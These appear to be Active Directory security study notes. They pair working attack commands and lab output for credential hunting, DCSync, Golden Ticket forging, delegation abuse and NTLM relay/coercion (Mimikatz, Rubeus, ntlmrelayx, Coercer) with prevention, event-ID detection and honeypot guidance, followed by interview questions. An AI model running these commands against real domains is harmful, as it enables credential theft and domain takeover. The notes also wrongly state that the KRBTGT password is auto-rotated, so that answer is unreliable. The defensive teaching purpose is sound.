No attack walkthrough - simple GPO edit or file replacement:

1. Find GPOs with weak permissions
2. Modify GPO to add malicious scheduled task
3. Execute code on all linked computers

### Prevention

| Mitigation | Description |
|-----------|-------------|
| **Lock Down GPO** | Only specific group/users can modify GPOs |
| **Restrict Permissions** | Don't give Domain Admins to everyone |
| **No Network Shares** | Don't deploy files from writable shares |
| **Regular Audit** | Review GPO permissions regularly |
| **Automate Monitoring** | Alert on permission deviations |

### Detection

> 📌 **Event ID 5136** - Directory Service Changes (when GPO is modified)

**Detection Query:**

```powershell
Get-WinEvent -FilterHashtable @{LogName='Security';ID=5136} | 
    Where-Object {$_.Properties[8].Value -match "CN=.*POLICIES"}
```

**Event 5136 Example:**


> 🔴 Alert if unexpected users modify GPOs!

### Honeypot Approach

**Setup Honeypot GPO:**
- Link to non-critical servers only
- Monitor modifications continuously
- Auto-disable user if GPO is modified
- Auto-unlink GPO if modification detected

**Automated Detection Script:**

```powershell
# Define filter for the last 15 minutes
$TimeSpan = (Get-Date) - (New-TimeSpan -Minutes 15)

# Search for event ID 5136 (GPO modified) in the past 15 minutes
$Logs = Get-WinEvent -FilterHashtable @{LogName='Security';id=5136;StartTime=$TimeSpan} -ErrorAction SilentlyContinue | `
Where-Object {$_.Properties[8].Value -match "CN={GPO-GUID},CN=POLICIES,CN=SYSTEM,DC=DOMAIN,DC=LOCAL"}

if($Logs){
    $emailBody = "Honeypot GPO was modified`r`n"
    $disabledUsers = @()
    ForEach($log in $Logs){
        If(((Get-ADUser -Identity $log.Properties[3].Value).Enabled -eq $true) -and ($log.Properties[3].Value -notin $disabledUsers)){
            Disable-ADAccount -Identity $log.Properties[3].Value
            $emailBody = $emailBody + "Disabled user " + $log.Properties[3].Value + "`r`n"
            $disabledUsers += $log.Properties[3].Value
        }
    }
    $emailBody
}
```

**Honeypot Triggered - Event 4725:**


> ⚠️ **Caution**: Only implement honeypot if organization is mature enough to respond in real-time!

---

## 7. Credentials in Shares

### Description

> 📌 **Credentials in network shares** are among the most common AD misconfigurations. Found in scripts (.ps1, .bat, .cmd), config files (.conf, .ini, .config), and documents.



**Why shares are exposed:**
1. Admin opens share to "Everyone" or "Users" (contains all Domain Users)
2. Admin unaware folder is shared (tests scripts in shared folder)
3. Purposefully creates open share, forgets to close it
4. Hidden shares ($) - misconception that they're secure

### Attack Tools

| Tool | Description |
|------|-------------|
| **PowerView** | Invoke-ShareFinder to enumerate shares |
| **SauronEye** | Search multiple files for keywords |
| **findstr** | Built-in Windows command (Living Off the Land) |

**Step 1: Find shares with PowerView:**

**Step 1: Find shares with PowerView:**

```powershell
Invoke-ShareFinder -domain eagle.local -ExcludeStandard -CheckShareAccess
```

**Output:**


**Hidden share ($) - Explorer shows empty:**


**But UNC path shows content:**


**Step 2: Search for credentials using findstr:**

```powershell
cd \\Server01.eagle.local\dev$

# Search for 'pass' in different file types
findstr /m /s /i "pass" *.bat
findstr /m /s /i "pass" *.cmd
findstr /m /s /i "pass" *.ini
# Output: setup.ini

findstr /m /s /i "pass" *.config
# Output: 4\5\4\web.config

# Search for 'pw' - shows filename only
findstr /m /s /i "pw" *.config
# Output: 5\2\3\microsoft.config

# Search for 'pw' - shows exact line
findstr /s /i "pw" *.config
# Output: 5\2\3\microsoft.config:pw BANANANANANANANANANANANANNAANANANANAS

# Search for domain name
findstr /m /s /i "eagle" *.ps1
# Output: 2\4\4\Software\connect.ps1

findstr /s /i "eagle" *.ps1
# Output: 2\4\4\Software\connect.ps1:net use E: \\DC1\sharedScripts /user:eagle\Administrator Slavi123
```

> 💡 **findstr arguments:**
> - `/s` - search current directory and subdirectories
> - `/i` - ignore case
> - `/m` - show only filename (not matching line)

**Results:**


**Search for 'pw':**


**Search for domain name 'eagle':**


**Exposed credentials example:**

```
net use E: \\DC1\sharedScripts /user:eagle\Administrator Slavi123
```

> ⚠️ **Note**: findstr is detected by Windows Defender as suspicious!

### Prevention

| Mitigation | Description |
|-----------|-------------|
| **Lock Down Shares** | No open permissions to Everyone/Users |
| **Regular Scans** | Weekly scans for open shares and credentials |
| **Avoid Creds in Scripts** | Use tokens/environment variables |
| **Hide Share Audit** | Monitor hidden shares ($) access |

### Detection

**Event IDs to monitor:**

| Event ID | Description |
|----------|-------------|
| 4624 | Successful logon |
| 4625 | Failed logon |
| 4768 | Kerberos TGT requested |

**Alert on:**
- Privileged users logging in from unexpected machines
- Privileged users not from PAW (Privileged Access Workstation)
- Unusual authentication sources

**Event 4624 - Successful logon (Admin from unusual IP):**


**Event 4768 - Kerberos TGT request:**


### Honeypot Approach

**Setup:**
- Create service account with old password (2+ years)
- Place fake credential file in share
- Ensure file last modified > password change date

**Honeypot triggered events:**

**Event 4625 - Failed logon:**


**Event 4771 - Failed pre-authentication:**


**Event 4776 - Failed credential validation:**


---

## 8. Credentials in Object Properties

### Description

> 📌 **Credentials in AD object properties** - administrators sometimes store passwords in Description or Info fields of user objects.



**Common properties that may contain credentials:**
- Description
- Info
- mail
- telephoneNumber
- displayName

### Attack

**PowerShell script to search for credentials:**

```powershell
Function SearchUserClearTextInformation {
    Param (
        [Parameter(Mandatory=$true)]
        [Array] $Terms,

        [Parameter(Mandatory=$false)]
        [String] $Domain
    )

    if ([string]::IsNullOrEmpty($Domain)) {
        $dc = (Get-ADDomain).RIDMaster
    } else {
        $dc = (Get-ADDomain $Domain).RIDMaster
    }

    $list = @()

    foreach ($t in $Terms) {
        $list += "(`$_.Description -like `"*$t*`")"
        $list += "(`$_.Info -like `"*$t*`")"
    }

    Get-ADUser -Filter * -Server $dc -Properties Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet |
        Where { Invoke-Expression ($list -join ' -OR ') } | 
        Select SamAccountName,Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet | 
        fl
}
```

**Search for 'pass' in user properties:**

```powershell
SearchUserClearTextInformation -Terms "pass"
```

**Output:**

```
SamAccountName       : bonni
Enabled              : True
Description          : pass: Slavi123
Info                 : 
PasswordNeverExpires : True
PasswordLastSet      : 05/12/2022 15.18.05
```


> 🔴 Every domain user can read most object properties including Description and Info!

### Prevention

| Mitigation | Description |
|-----------|-------------|
| **Continuous Assessment** | Regular scans for credentials in properties |
| **User Education** | Train admins not to store creds in AD properties |
| **Automated User Creation** | Reduce manual account creation |
| **Regular Audits** | Review user properties quarterly |

### Detection

**Best Detection - User Behavior Analysis:**
- Baseline normal behavior for service accounts
- Alert on unusual authentication patterns

**Event IDs to monitor:**

| Event ID | Description |
|----------|-------------|
| 4624 | Successful logon |
| 4625 | Failed logon |
| 4768 | Kerberos TGT requested |

> 📌 **Event 4738** (user modified) does NOT show what property was changed!

**Event 4768 - Kerberos TGT request:**


### Honeypot Approach

**Setup:**
- Add fake password in Description field
- Use incorrect password
- Account must be enabled with recent logon attempts
- Service accounts are better targets (manually created)
- Last password change 2+ years ago

**Honeypot triggered events:**

**Event 4625 - Failed logon:**


**Event 4771 - Failed pre-authentication:**


**Event 4776 - Failed credential validation:**


---

## 9. DCSync

### Description

> 📌 **DCSync** - impersonates a Domain Controller to replicate password hashes from Active Directory.



**Required Permissions:**
- Replicating Directory Changes
- Replicating Directory Changes All

### Attack

**Step 1: Get shell as user with replication permissions:**

```cmd
runas /user:eagle\rocky cmd.exe
```

**Output:**


**User permissions check:**


**Step 2: Run Mimikatz to DCSync:**

```cmd
mimikatz.exe

lsadump::dcsync /domain:eagle.local /user:Administrator
```

**Output:**

```
[DC] 'eagle.local' will be the domain
[DC] 'DC2.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Password last change : 07/08/2022 11.24.13
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:Kerberos-Newer-Keys *
    aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
    aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
    des_cbc_md5       (4096) : d9b53b1f6d7c45a8
```


> 💡 Use `/all` parameter to dump all AD hashes

### Prevention

| Mitigation | Description |
|-----------|-------------|
| **RPC Firewall** | Third-party product to block/allow specific RPC calls |
| **Restrict Permissions** | Only Domain Controllers should replicate |
| **Monitor AD Admins** | Limit who has replication permissions |

> 🔴 DCSync abuse normal AD replication - hard to prevent!

### Detection

> 📌 **Event ID 4662** - Directory object accessed

**Detection:**
- Monitor Event ID 4662 with specific properties
- Alert when non-DC accounts perform replication

**Properties to monitor:**
- `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` (Replicating Directory Changes)
- `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` (Replicating Directory Changes All)

**Event 4662 Example:**


**False Positive Handling:**
- Whitelist Domain Controllers
- Whitelist Azure AD Connect (constantly replicates)
- Business justification required for other accounts

---

## 10. Golden Ticket

### Description

> 📌 **Golden Ticket** - forge Kerberos TGT using krbtgt account hash to gain Domain Admin access.



**Key Points:**
- Uses krbtgt password hash to sign forged TGTs
- Can create tickets for any user (including non-existent)
- Provides persistence after Domain Admin access
- Can escalate from child to parent domain

### Attack

**Step 1: Get krbtgt hash via DCSync:**

```cmd
mimikatz.exe
lsadump::dcsync /domain:eagle.local /user:krbtgt
```

**Output:**

```
Object RDN           : krbtgt
SAM Username         : krbtgt
Object Relative ID   : 502

Credentials:
  Hash NTLM: db0d0630064747072a7da3f7c3b4069e

Supplemental Credentials:
* Primary:Kerberos-Newer-Keys *
    aes256_hmac       (4096) : 1335dd3a999cacbae9164555c30f71c568fbaf9c3aa83c4563d25363523d1efc
    aes128_hmac       (4096) : 8ca6bbd37b3bfb692a3cfaf68c579e64
    des_cbc_md5       (4096) : 580229010b15b52f
```


**Step 2: Get Domain SID:**

```powershell
. .\PowerView.ps1
Get-DomainSID
```

**Output:**

```
S-1-5-21-1518138621-4282902758-752445584
```


**Step 3: Forge Golden Ticket:**

```cmd
mimikatz.exe

kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt
```

**Output:**

```
User      : Administrator
Domain    : eagle.local (EAGLE)
SID       : S-1-5-21-1518138621-4282902758-752445584
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: db0d0630064747072a7da3f7c3b4069e - rc4_hmac_nt
Lifestyle : 13/10/2022 06.28.43 ; 13/10/2022 06.36.43 ; 13/10/2022 06.35.43
-> Ticket : ** Pass The Ticket **

Golden ticket for 'Administrator @ eagle.local' successfully submitted for current session
```


**Step 4: Verify ticket:**

```cmd
klist
```

**Output:**

```
Cached Tickets: (1)

#0>     Client: Administrator @ eagle.local
        Server: krbtgt/eagle.local @ eagle.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 10/13/2022 06.28.43
        End Time:   10/13/2022 06.36.43
        Renew Time: 10/13/2022 06.35.43
```


**Step 5: Access DC:**

```cmd
dir \\dc1\c$
```

**Output:**

```
 Directory of \\dc1\c$

15/10/2022  08.30    <DIR>          DFSReports
13/10/2022  13.23    <DIR>          Mimikatz
01/09/2022  11.49    <DIR>          PerfLogs
28/11/2022  01.59    <DIR>          Program Files
01/09/2022  04.02    <DIR>          Program Files (x86)
13/12/2022  02.22    <DIR>          scripts
07/08/2022  11.31    <DIR>          Users
28/11/2022  02.27    <DIR>          Windows
```


> 💡 Use `/renewmax` and `/endin` to avoid detection by EDR

### Prevention

| Mitigation | Description |
|-----------|-------------|
| **Reset krbtgt** | Periodically reset krbtgt password (use KrbtgtKeys.ps1) |
| **PAW** | Privileged Access Workstations for admins |
| **SID Filtering** | Enable between domains to prevent cross-domain escalation |
| **Restrict Auth** | Block privileged users from authenticating to non-PAWs |

> 🔴 Once attacker has krbtgt hash, they can forge any ticket!

### Detection

**Event IDs to monitor:**

| Event ID | Description |
|----------|-------------|
| 4624 | Successful logon |
| 4625 | Failed logon |
| 4769 | TGS service ticket requested |
| 4675 | SID filtering alert |

**Detection Strategy:**
- Baseline normal admin login locations/times
- Alert on privileged users not from PAW
- Monitor for TGS without prior TGT
- Check for unusual service ticket requests

**Event 4624 - Successful logon (looks normal):**


**Event 4769 - TGS requests (2 examples):**


### Recovery After Compromise

> ⚠️ If forest is compromised:
> - Reset ALL user passwords
> - Revoke all certificates
> - Reset krbtgt password **TWICE** (with 10+ hours gap)
> - Reset password history = 2 for krbtgt

---

## 11. Kerberos Constrained Delegation

### Description

> 📌 **Kerberos Constrained Delegation** - allows an account to request tickets for specific services on behalf of users.



**Three Types of Delegation:**

| Type | Description | Risk |
|------|-------------|------|
| **Unconstrained** | Delegate to ANY service | Highest |
| **Constrained** | Delegate to specific services | Medium |
| **Resource-based** | Computer decides who can delegate | Medium |

> ⚠️ Any delegation is a security risk - avoid unless necessary!

### Attack

**Step 1: Find accounts trusted for delegation:**

```powershell
Get-NetUser -TrustedToAuth
```

**Output:**

```
distinguishedname     : CN=web service,CN=Users,DC=eagle,DC=local
name                  : web service
userprincipalname     : webservice@eagle.local
msds-allowedtodelegateto : {http/DC1.eagle.local/eagle.local, http/DC1.eagle.local...}
serviceprincipalname  : {cvs/dc1.eagle.local, cvs/dc1}
useraccountcontrol   : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
```


> 💡 web_service is trusted to delegate to HTTP service on DC1

**Step 2: Get NTLM hash of password:**

```powershell
.\Rubeus.exe hash /password:Slavi123
```

**Output:**

```
[*] Input password             : Slavi123
[*]       rc4_hmac             : FCDC65703DD2B0BD789977F1F3EEAECF
```


**Step 3: Request ticket for Administrator:**

```powershell
.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
```

**Output:**

```
[*] Action: S4U
[*] Using rc4_hmac hash: FCDC65703DD2B0BD789977F1F3EEAECF
[+] TGT request successful!
[+] Ticket successfully imported!
```


**Step 4: Verify ticket:**

```cmd
klist
```

**Output:**

```
Cached Tickets: (1)

#0>     Client: Administrator @ EAGLE.LOCAL
        Server: http/dc1 @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate
```


**Step 5: Connect to DC1 as Administrator:**

```powershell
Enter-PSSession dc1
```

**Output:**

```
[dc1]: PS C:\Users\Administrator\Documents> hostname
DC1
[dc1]: PS C:\Users\Administrator\Documents> whoami
eagle\administrator
```


> 💡 Use `/altservice` to request tickets for LDAP, CIFS, host, etc.

### Prevention

| Mitigation | Description |
|-----------|-------------|
| **Sensitive Account** | Set "Account is sensitive and cannot be delegated" |
| **Protected Users** | Add privileged users to Protected Users group |
| **Strong Passwords** | For accounts with delegation privileges |
| **Limit Delegation** | Only allow necessary services |

### Detection

**Event IDs to monitor:**
- 4624 - Successful logon
- Look for **Transited Services** attribute

**Detection Strategy:**
- Monitor for S4U (Service for User) logon processes
- Alert on delegated tickets to privileged users
- Baseline normal admin login locations

**Event 4624 - Note the Transited Services:**


> 📌 Event shows "Transited Services: webservice@EAGLE.LOCAL" - indicates S4U delegation!

---

## 12. Print Spooler & NTLM Relaying

### Description

> 📌 **Print Spooler** - old Windows service (enabled by default) that can be abused to coerce authentication.



**Attack Vectors:**
1. Relay to another DC (DCSync) - if SMB Signing disabled
2. Force DC to connect to Unconstrained Delegation server
3. Relay to AD Certificate Services
4. Configure Resource-Based Kerberos Delegation

> 🔴 Microsoft's stance: "by-design" - will not fix!

### Attack

**Step 1: Start NTLMRelayx:**

```bash
impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support
```

**Output:**

```
[*] Protocol Client DCSYNC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Servers started, waiting for connections
```


**Step 2: Trigger PrinterBug:**

```bash
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123
```

**Output:**

```
[*] connecting to 172.16.18.3
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
```


**Step 3: DCSync successful:**


> 💡 Requires SMB Signing disabled on Domain Controllers

### Prevention

| Mitigation | Description |
|-----------|-------------|
| **Disable Print Spooler** | Disable on non-print servers |
| **Disable on DCs** | Never run on Domain Controllers |
| **Registry Key** | Set RegisterSpoolerRemoteRpcEndPoint = 2 |
| **Enable SMB Signing** | Prevents relaying |

**Registry Configuration:**

```
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers
RegisterSpoolerRemoteRpcEndPoint = 1 (enable) or 2 (disable)
```


### Detection

**Challenge:** Generic network connections - hard to detect

**Key Indicator:**
- Event 4624 shows DC1$ logon from unexpected IP (Kali machine)
- Not from actual Domain Controller IP

**Event 4624 - DC logon from attacker IP:**


**Detection Strategy:**
- Correlate logon attempts from DCs to known IP addresses
- DCs should only logon from their static IPs

### Honeypot Approach

**Firewall Rules:**
- Block outbound connections to ports 139 and 445
- This allows PrinterBug to trigger but blocks reverse connection
- Blocked connections = signs of compromise

> ⚠️ **Caution:** Keep ports open between DCs for replication!

---

## 13. Coercing Attacks & Unconstrained Delegation

### Description

> 📌 **Coercing attacks** - force machines to authenticate back to attacker, enabling privilege escalation.

```mermaid
graph LR
    Attacker[Attacker] -->|Coerce| DC[Domain Controller]
    DC -->|Reverse connection<br/>with TGT| Attacker
    Attacker -->|Capture TGT| UD[Unconstrained<br/>Delegation Server]
    UD -->|DCSync| Hashes[Password Hashes]
    
    style Attacker fill:#ff9999,stroke:#333
    style DC fill:#ffcccc,stroke:#333
```

**Attack Vectors:**
1. Relay to another DC (DCSync) - if SMB Signing disabled
2. Force DC to connect to Unconstrained Delegation server
3. Relay to AD Certificate Services
4. Configure Resource-Based Kerberos Delegation

**Follow-up Options:**
- Relay to DC → DCSync
- Force DC to UD server → Capture TGT
- Relay to Certificate Services → Get certificate
- Relay to configure RBKD → Escalate to admin

### Attack

**Step 1: Find Unconstrained Delegation systems:**

```powershell
Get-NetComputer -Unconstrained | select samaccountname
```

**Output:**

```
samaccountname
--------------
DC1$
SERVER01$
WS001$
DC2$
```


> 💡 Domain Controllers trusted by default; WS001 and SERVER01 are targets

**Step 2: Monitor for TGTs on UD server:**

```powershell
.\Rubeus.exe monitor /interval:1
```

**Output:**

```
[*] Action: TGT Monitoring
[*] Monitoring every 1 seconds for new TGTs

[*] 18/12/2022 22.37.09 UTC - Found new TGT:
  User                  :  bob@EAGLE.LOCAL
  StartTime             :  18/12/2022 23.30.09
  EndTime               :  19/12/2022 09.30.09
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
```


**Step 3: Execute Coercer to coerce DC1:**

```bash
Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local
```

**Output:**

```
[dc1.eagle.local] Analyzing available protocols...
   [>] Pipe '\PIPE\lsarpc' is accessible!
       [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcOpenFileRaw' ...
       ERROR_BAD_NETPATH (Attack has worked!)
[+] All done!
```


**Step 4: Check captured TGT:**

```
[*] 18/12/2022 22.55.52 UTC - Found new TGT:
  User                  :  DC1$@EAGLE.LOCAL
  StartTime             :  18/12/2022 23.30.21
  EndTime               :  19/12/2022 09.30.21
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
```


**Step 5: Import TGT and DCSync:**

```powershell
.\Rubeus.exe ptt /ticket:<base64_ticket>
klist
.\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"
```

### Prevention

| Mitigation | Description |
|-----------|-------------|
| **RPC Firewall** | Third-party like Zero Networks to block dangerous RPC |
| **Block Outbound 139/445** | On DCs except to required AD servers |
| **Disable Unconstrained** | Don't use UD unless necessary |

> 🔴 No out-of-the-box Windows solution!

### Detection

**Firewall Log Analysis:**
- Inbound connections to DC on port 445
- Outbound connections from DC to attacker IP
- Pattern repeats as Coercer tests different functions

**Event - Connections allowed:**


**Event - Outbound blocked:**


> 💡 Any unexpected dropped traffic to ports 139 or 445 is suspicious!

---

## 14. Interview Questions

### Q1: What is Kerberoasting and how does it work?

**Answer:** Kerberoasting is an attack that exploits Kerberos authentication by requesting TGS (Ticket Granting Service) tickets for service accounts that have SPNs (Service Principal Names) registered. These tickets are encrypted with the service account's NTLM password hash. Attackers obtain these tickets and crack them offline to reveal the service account password.

**Key Points:**
- Request TGS for accounts with SPN registered
- Ticket encrypted with service account's NTLM hash
- Success depends on password strength
- Can force downgrade to RC4 for faster cracking

---

### Q2: What is the difference between Kerberoasting and AS-REP Roasting?

**Answer:**

| Aspect | Kerberoasting | AS-REP Roasting |
|--------|--------------|-----------------|
| **Target** | Accounts with SPN registered | Accounts with "Do not require Kerberos preauthentication" enabled |
| **Ticket Type** | TGS (Service Ticket) | TGT (Ticket Granting Ticket) |
| **Event ID** | 4769 | 4768 |
| **Attack Requirement** | Need valid AD user credentials | No credentials needed |

---

### Q3: How does Kerberos authentication work?

**Answer:**

```mermaid
sequenceDiagram
    participant Client
    participant DC as Domain Controller
    participant Service as Target Service
    
    Client->>DC: 1. AS-REQ (request TGT)
    DC->>Client: 2. AS-REP (TGT encrypted with client password hash)
    
    Client->>DC: 3. TGS-REQ (request service ticket)
    DC->>Client: 4. TGS-REP (TGS encrypted with service account hash)
    
    Client->>Service: 5. Authenticate with TGS
```

1. Client requests TGT from DC (AS-REQ)
2. DC validates client and issues TGT (AS-REP)
3. Client requests TGS for specific service (TGS-REQ)
4. DC issues TGS encrypted with service account hash (TGS-REP)
5. Client presents TGS to service for authentication

---

### Q4: How do you detect Kerberoasting attacks?

**Answer:**

**Primary Detection - Event ID 4769:**
- High volume of TGS requests from single user/machine
- RC4 encryption type (unusual for AES-enabled environments)
- Requests for unusual service accounts

**Detection Queries:**

```powershell
# Detect high volume of 4769 events
Get-WinEvent -FilterHashtable @{LogName='Security';ID=4769} | 
    Group-Object -Property IpAddress | 
    Where-Object {$_.Count -gt 10}

# Detect RC4 encryption
Get-WinEvent -FilterHashtable @{LogName='Security';ID=4769} | 
    Where-Object {$_.Properties[6].Value -eq '0x17'}
```

---

### Q5: What is GPP (Group Policy Preferences) and why is it dangerous?

**Answer:** GPP allowed administrators to store credentials in XML policy files deployed via Group Policy. The credentials were encrypted with a known AES key that Microsoft published. Anyone with domain user access can decrypt these credentials.

**Vulnerable Locations:**
- \\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\*
- Groups.xml, Users.xml, Services.xml, ScheduledTasks.xml

**Mitigation:**
- Apply KB2962486 (2014 patch)
- Remove legacy GPP XML files
- Never store passwords in GPP

---

### Q6: What is DCSync attack?

**Answer:** DCSync simulates a domain controller behavior to request password hash replication from other domain controllers. It uses the GetNCChanges RPC call to sync password hashes.

**Requirements:**
- Domain Admin privileges OR
- Replicating Directory Changes privileges

**Detection:**
- Event ID 4662 (Directory Services access)
- Event ID 4929 (Source DC replication)
- Monitor for unusual GetNCChanges requests

---

### Q7: What is a Golden Ticket attack?

**Answer:** A Golden Ticket forges a Kerberos TGT using the KRBTGT account's password hash. Since KRBTGT password is randomly generated and auto-rotated, attackers with Domain Admin access can extract it and create persistent access.

**Characteristics:**
- Valid for up to 10 years (or any duration)
- Ignores password changes (uses hash)
